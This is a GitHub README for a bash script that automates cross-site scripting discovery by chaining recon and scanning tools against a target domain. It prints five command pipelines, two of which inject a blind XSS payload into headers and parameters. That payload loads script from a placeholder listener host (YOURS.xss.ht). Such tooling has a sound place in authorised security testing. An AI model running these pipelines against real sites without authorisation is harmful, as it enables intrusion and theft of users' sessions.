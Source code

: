 # xss-automate-five-in-one
Useful script with five different methods to detect XSS

### Summary for the Script

This script automates various methods of detecting cross-site scripting (XSS) vulnerabilities using different tools. It allows the user to choose an XSS detection technique, provides details on the commands that will be executed, and runs the corresponding method based on the user's input.

---

### How to Use the Script

1. **Run the Script**: Save the script to a file (e.g., `xss_detect.sh`) and make it executable using:
   ```bash
   chmod +x xss_detect.sh
   ./xss_detect.sh
   ```

2. **Choose an Option**: The script will display five XSS detection options. Select one by entering the corresponding number.

3. **Provide Inputs**: Depending on the chosen option, the script will prompt for inputs such as:
   - Domain name (e.g., `example.com`).
   - A file containing URLs (for some methods).
   - A Blind XSS listener domain (if required).

4. **View Results**: The script will execute the selected command and save the results in output files for further analysis.

---

### Prerequisite Tools

Ensure the following tools are installed on your system before running the script:

1. **Option 1**:
   - `waybackurls`
   - `gf`
   - `dalfox`

2. **Option 2**:
   - `gospider`
   - `qsreplace`
   - `dalfox`

3. **Option 3**:
   - `gau`
   - `gf`
   - `uro`
   - `Gxss`
   - `kxss`

4. **Option 4 & 5**:
   - `subfinder`
   - `gau`
   - `bxss`

Install these tools using package managers like `apt`, `brew`, or `go`, as appropriate.

---

### Example Commands for Each Option

#### **Option 1: XSS using `waybackurls`, `gf`, and `dalfox`**
```bash
waybackurls domain.com | gf xss | sed 's/=.*=/' | sort -u | tee file.txt && cat file.txt | dalfox pipe -b YOURS.xss.ht > xss_Results_wayback.txt
```

#### **Option 2: XSS using `gospider`, `qsreplace`, and `dalfox`**
```bash
gospider -S urls.txt -c 10 -d 5 --blacklist ".*(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}' | grep "=" | qsreplace "a" | dalfox pipe -b YOURS.xss.ht | tee -a xss_out.txt
```

#### **Option 3: XSS using `gau`, `gf`, `uro`, `Gxss`, and `kxss`**
```bash
echo domain.com | gau | gf xss | uro | Gxss | kxss | tee xss_output.txt && cat xss_output.txt | grep -oP '^URL: \\K\\S+' | sed 's/=.*=/=/' | sort -u > final.txt
```

#### **Option 4: Header-Based Blind XSS using `bxss`**
```bash
subfinder domain.com | gau | bxss -payload '"><script src=https://YOURS.xss.ht></script>' -header "X-Forwarded-For"
```

#### **Option 5: Blind XSS in Parameters using `bxss`**
```bash
subfinder domain.com | gau | grep "&" | bxss -appendMode -payload '"><script src=https://YOURS.xss.ht></script>' -parameters
```

---

This script simplifies the workflow for XSS detection, consolidating various methods into an interactive and user-friendly experience.
